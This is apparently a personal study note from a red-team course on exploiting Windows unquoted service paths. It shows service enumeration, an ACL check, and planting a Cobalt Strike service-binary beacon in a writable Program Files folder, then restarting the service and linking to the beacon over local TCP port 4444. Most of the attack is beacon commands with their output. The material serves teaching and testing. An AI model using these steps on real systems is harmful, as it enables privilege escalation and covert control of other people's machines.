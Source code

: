 ```yaml
---
creation date: September 23rd 2022
last modified date: September 23rd 2022
aliases: []
tags: #📕
---
```


Primary Categories: { Add link(s) [[]] back to related PRIMARY categories }
Secondary Categories:  { Add link(s) [[]] back to related SECONDARY categories }
Links: {Add link(s) [[]] to related terms}
Search Tag: #📕  

# [[Unquoted Service Paths]]  
___

## Description:  
A Windows "service" is a special type of application that is usually started automatically when the computer boots.

**Look for a service that has both spaces in the path and is unquoted.

You can see the services installed on a machine by opening **services.msc**, or via the **sc** command line tool.

```
C:\>sc query

SERVICE_NAME: Appinfo
DISPLAY_NAME: Application Information
        TYPE               : 30  WIN32
        STATE              : 4  RUNNING
                                (STOPPABLE, NOT_PAUSABLE, IGNORES_SHUTDOWN)
        WIN32_EXIT_CODE    : 0  (0x0)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x0
        WAIT_HINT          : 0x0

SERVICE_NAME: AudioEndpointBuilder
DISPLAY_NAME: Windows Audio Endpoint Builder
        TYPE               : 30  WIN32
        STATE              : 4  RUNNING
                                (STOPPABLE, NOT_PAUSABLE, IGNORES_SHUTDOWN)
        WIN32_EXIT_CODE    : 0  (0x0)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x0
        WAIT_HINT          : 0x0
```

Or the **Get-Service** PowerShell cmdlet.

```
PS C:\> Get-Service | fl

Name                : AJRouter
DisplayName         : AllJoyn Router Service
Status              : Stopped
DependentServices   : {}
ServicesDependedOn  : {}
CanPauseAndContinue : False
CanShutdown         : False
CanStop             : False
ServiceType         : Win32ShareProcess

Name                : ALG
DisplayName         : Application Layer Gateway Service
Status              : Stopped
DependentServices   : {}
ServicesDependedOn  : {}
CanPauseAndContinue : False
CanShutdown         : False
CanStop             : False
ServiceType         : Win32OwnProcess

```


An unquoted service path is where the path to the service binary is not wrapped in quotes.

WMI can be used to pull a list of every service and the path to its executable well using CobaltStrike.

```
beacon> run wmic service get name, pathname

Name                                      PathName
ALG                                       C:\Windows\System32\alg.exe
AppVClient                                C:\Windows\system32\AppVClient.exe
AmazonSSMAgent                            "C:\Program Files\Amazon\SSM\amazon-ssm-agent.exe"
[...snip...]
Vuln-Service-1                            C:\Program Files\Vuln Services\Service 1.exe

```


When Windows attempts to read the path to this executable, it interprets the space as a terminator. So it will attempt to execute the following (in order):

1.  `C:\Program.exe`
2.  `C:\Program Files\Vuln.exe`
3.  `C:\Program Files\Vuln Services\Service.exe`

If we can drop a binary into any of those paths, the service will execute it before the real one.

The PowerShell **Get-Acl** cmdlet will show the permissions of various objects (including files and directories).

```
beacon> powershell Get-Acl -Path "C:\Program Files\Vuln Services" | fl

Path   : Microsoft.PowerShell.Core\FileSystem::C:\Program Files\Vuln Services
Owner  : BUILTIN\Administrators
Group  : WKSTN-1\None
Access : CREATOR OWNER Allow  FullControl
         NT AUTHORITY\SYSTEM Allow  FullControl
         BUILTIN\Administrators Allow  FullControl
         BUILTIN\Users Allow  Write, ReadAndExecute, Synchronize
         NT SERVICE\TrustedInstaller Allow  FullControl
         APPLICATION PACKAGE AUTHORITY\ALL APPLICATION PACKAGES Allow  ReadAndExecute, Synchronize
         APPLICATION PACKAGE AUTHORITY\ALL RESTRICTED APPLICATION PACKAGES Allow  ReadAndExecute, Synchronize

```


Payloads to abuse services must be specific "service binaries". We can do this in Cobalt Strike via **Attacks > Packages > Windows Executable (S)** and selecting the **Service Binary** output type.

It's usually better to use a listener that is bound to the local host.

```
beacon> cd C:\Program Files\Vuln Services
beacon> ls

 Size     Type    Last Modified         Name
 ----     ----    -------------         ----
 5kb      fil     02/23/2021 15:04:13   Service 1.exe
 5kb      fil     02/23/2021 15:04:13   Service 2.exe
 5kb      fil     02/23/2021 15:04:13   Service 3.exe

beacon> upload C:\Payloads\beacon-tcp-svc.exe
beacon> mv beacon-tcp-svc.exe Service.exe
beacon> ls

 Size     Type    Last Modified         Name
 ----     ----    -------------         ----
 5kb      fil     02/23/2021 15:04:13   Service 1.exe
 5kb      fil     02/23/2021 15:04:13   Service 2.exe
 5kb      fil     02/23/2021 15:04:13   Service 3.exe
 282kb    fil     03/03/2021 11:11:27   Service.exe

beacon> run sc stop Vuln-Service-1
beacon> run sc start Vuln-Service-1
# might have to wait for a reboot if you dont have stop/start permissions
```

You will not see a Beacon appear automatically. When the service has been started and the Beacon executed, you should see that port you used in your TCP listener configuration (in my case **4444**) is listening on **127.0.0.1**.

```
beacon> run netstat -anp tcp
[...snip...]
TCP    127.0.0.1:4444         0.0.0.0:0              LISTENING
```

The Beacon is waiting for us to connect to it, which we do with the **connect** command.

```
beacon> connect localhost 4444
[+] established link to child beacon: 10.10.17.231

```


___

## Resources:

| Hyperlink | Info |
| --------- | ---- |


Created Date: September 23rd 2022 (09:17 am)  
Last Modified Date: <%+tp.file.last_modified_date("MMMM Do YYYY (hh:ss a)")%>
